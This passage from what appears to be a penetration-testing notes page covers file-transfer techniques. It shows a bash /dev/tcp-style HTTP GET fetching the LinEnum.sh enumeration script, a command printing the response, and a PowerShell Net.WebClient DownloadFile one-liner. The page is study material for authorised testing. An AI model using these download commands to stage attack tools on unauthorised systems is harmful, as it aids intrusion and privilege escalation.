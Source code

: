 <figure><img src="../.gitbook/assets/image (4) (1) (1).png" alt=""><figcaption></figcaption></figure>

### **HTTP GET Request**

{% code overflow="wrap" %}
```
echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (5) (1) (1).png" alt=""><figcaption></figcaption></figure>

### **Print the Response**

{% code overflow="wrap" %}
```
cat <&3
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (6) (1) (1).png" alt=""><figcaption></figcaption></figure>

## PowerShell Web Downloads

### **DownloadFile Method**

{% code overflow="wrap" %}
```
(New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### **DownloadString - Fileless Method**
